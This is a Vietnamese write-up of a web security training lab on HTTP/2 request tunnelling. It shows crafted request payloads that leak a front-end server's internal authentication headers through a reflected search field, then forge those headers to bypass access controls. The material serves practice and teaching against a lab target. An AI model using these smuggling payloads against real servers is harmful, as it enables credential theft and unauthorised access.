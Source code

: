 ## Bypassing access controls via HTTP/2 request tunnelling (REFER)

1. Xác định được có thể smuggling thông qua CRLF header. Ví dụ ở đây khi inject header HOST bất kỳ vào request nhận được thông báo lỗi chứng tỏ cố gắng kết nối đến giá trị host.

![image](https://user-images.githubusercontent.com/80744099/230790461-b8145add-dccf-494e-a1a1-d9473897fdbd.png)

2. Ở lab này ô search là một reflect input. Lợi dụng điều này ta có thể lấy giá trị các authentication header được FE server thêm vào bằng cách đặt content-length và cắt phần body của request để param search phía trước các authentication header.

```
GET /?search=x HTTP/2
Host: 0a0a00d8040641e282cc0266003f0011.web-security-academy.net
...
...{Authentication header}
Content-Length: 8

search=x
```

- Sau khi inject payload:
```
GET /?search=x HTTP/2
Host: 0a0a00d8040641e282cc0266003f0011.web-security-academy.net
...
Foo: bar
Content-Length: 168

search=x:x
...{Authentication header}
Content-Length: 8

search=x
```

![image](https://user-images.githubusercontent.com/80744099/230791219-1471941e-ce0a-4e88-82c0-5c0f782663a0.png)

3.  Thay đổi giá trị content-length để xác định toàn bộ header cần thiết.  Nhận được các header trong đó ``X-SSL-CLIENT-CN`` chứa username.

```
X-SSL-VERIFIED: 0
X-SSL-CLIENT-CN: null
X-FRONTEND-KEY: 9084482102113161
```

4. Chuyển sang method HEAD và thêm các giá trị thích hợp cho authentication header vào smuggling request

![image](https://user-images.githubusercontent.com/80744099/230791645-fbb13c25-b4dd-47ee-ad82-7d70adc3aa92.png)

5. Chuyển sang các endpoint khác mà có nội dung trả về của Method GET của endpoint đó nhỏ hơn tunnelled response. 

![image](https://user-images.githubusercontent.com/80744099/230791805-05781b6c-e04a-4673-abef-a4c43a8483cd.png)
